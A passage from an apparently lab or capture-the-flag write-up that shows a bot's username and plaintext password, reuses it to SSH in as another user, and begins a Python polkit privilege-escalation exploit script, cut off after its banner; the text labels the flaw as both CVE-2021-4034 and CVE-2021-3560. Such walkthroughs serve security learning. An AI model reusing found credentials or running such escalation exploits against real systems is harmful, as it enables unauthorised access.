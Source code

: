```
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

Using this we tried to login as the bot tho on rocketchat and wordpress tho it did not allow us

After a while we thougt to look at ssh and sshing into the server, using recyclops did not work so we tried dwigth (the apparent creator of the bot) where we were successfull

![We are in!](assets/paper5.png)

And catting users.txt does indeed show us the first flag

#### Part Two, Getting root privilages

After running linpeas.sh on the server we can clearly see a warning about `cve-2021-4034` being a privilage escallation exploit *i like*

We run the following code

```py
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
```